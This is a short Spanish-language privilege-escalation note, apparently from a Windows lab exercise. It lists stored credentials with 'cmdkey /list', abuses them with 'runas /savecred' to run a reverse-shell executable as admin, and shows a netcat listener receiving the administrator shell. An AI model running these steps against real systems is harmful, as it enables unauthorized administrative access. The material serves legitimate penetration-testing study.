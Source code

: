 ## Contraseña - Creditos guardados

Enumerar las credenciales guardadas

```
cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence
    
    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

Obteniendo shell como admin

```
runas /savecred /user:admin C:\Windows\System32\cmd.exe

whoami
win-qba94kb3iof\user

runas /savecred /user:admin C:\PrivEsc\reverse.exe
──────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.108.120] 49774
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

Desde la máquina Windows

![runas](../assets/imgs/winp/runas.png)
